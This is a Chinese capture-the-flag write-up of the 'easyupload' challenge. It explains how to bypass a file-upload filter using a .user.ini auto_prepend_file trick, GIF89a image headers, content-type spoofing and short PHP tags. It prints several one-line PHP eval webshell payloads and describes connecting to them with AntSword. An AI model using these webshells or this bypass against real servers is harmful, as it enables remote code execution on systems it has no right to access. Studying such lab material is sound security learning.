









攻防世界-easyupload
Last Update:
Word Count:
Read Time:
题目描述：
一名合格的黑客眼中，所有的上传点都是开发者留下的后门
题目解题：
这题解释长知识了（还是太菜~）
首先毕竟是新手题目，于是自己摸索了一会儿，首先就是上传shell.php发现失败，猜测肯定是过滤了php后缀啥的，暂不考虑后缀名绕过了，这有点太小儿科了，随后bp抓包修改了php后缀发现仍然没用，那肯定就是会检测文件内容的，之后尝试了一个很正常的jpg图片，成功上传，这提示我们文件类型也得正确（这也是后续要绕过的），之后尝试了图片马，依旧错误，更加确定会检测文件内容。之后尝试特殊的文件如.htaccess文件与.usr.ini文件，前者上传失败，而后者返回如下图的信息

这表明这个路线有说法，这里信息告诉我们文件类型有问题，当时只是觉得修改type类型即可，但还是会失败，然后我就知识盲区了，随后看了wp，发现这道题会检测文件头，文件头符合图片文件类型的才可以。
开始解题
参考wp发现：
本题的主要考点为利用fastcgi的.user.ini特性进行任意命令执行
这里需要绕过的点如下
1 | |
对于第一点可以利用短标签绕过，例如
这里补充一下知识：
php中最常见的标签为
1 | |
不过在题目上传时可能会被waf过滤掉php关键字。根据查询结果，还有四种php的标签，分别是：
① 仅在配置short_open_tag=on时可以使用，适合执行php语句；
②即使配置short_open_tag=off时依然可以使用，相当于，适合输出php语句~
上述二者的短标签都不必闭合（即?>可以省略不写，也可以连接成功）~
<? @eval($_POST['a']);?>
<?= @eval($_POST['a']);?>
<? @eval($_POST['a']);
<?= @eval($_POST['a']);
③<% %> 据说需要配置php.ini文件中asp_tags=on（php.ini默认状态下是关闭的），但该作者未在php.ini中找到该选项…
④ php7及之后官方就已经不支持的写法
php短标签参考1：php中的短标签 太坑人了 - dongguol - 博客园 (cnblogs.com)
php短标签参考2：无字母数字webshell总结 - 先知社区 (aliyun.com)
对于第二点可以通过上传.user.ini以及正常jpg文件来进行getshell,可以参考以下文章
在服务器中，只要是运用了fastcgi的服务器就能够利用该方式getshell，不论是apache或者ngnix或是其他服务器。
这个文件是php.ini的补充文件，当网页访问的时候就会自动查看当前目录下是否有.user.ini，然后将其补充进php.ini，并作为cgi的启动项。
其中很多功能设置了只能php.ini配置，但是还是有一些危险的功能可以被我们控制，比如auto_prepend_file。
第三点绕过方式即在文件头部添加一个图片的文件头，比如GIF89a
图片马需要在.php文件前增加文件头，上传时偶尔需要配合burpsuite抓包修改content-type，常见图片搭配格式如下表所示：
| 文件格式 | php 文件头 | content-type |
|---|---|---|
| .jpg .jpe .jpeg | JPGGraphic File | image/jpeg |
| .png | PNG Image File | image/png |
| .gif | GIF 89A | image/gif |
若题目要求上传其他格式的文件，如doc、pdf、dwg等，可以参考下面的博文：
图片马参考1：文件头_iqiqiya的博客-CSDN博客_gif文件头
图片马参考2：Content-type_瀚忄的博客-CSDN博客
第四点绕过方法即修改上传时的Content-Type
因此最终的payload为：上传.user.ini，内容为
1 | |
上传a.jpg，内容为
1 | |
这里也涨知识了，在文件内容头部添加GIF89a居然也可以？

接着上传图片马

F12查看文件去向，原因是你上传的图片马会被该网站同目录下的正常php文件所包含，因此你要知道你在上传图片之后，被哪个php文件包含

接着我们蚁剑连接即可

成功找到flag

当然我们也可以访问该网址进行手动探索


成功找到flag，在这里也遇到个神奇的问题，我在上传一段时间后，该木马文件失效了，这里也不知道是何原因
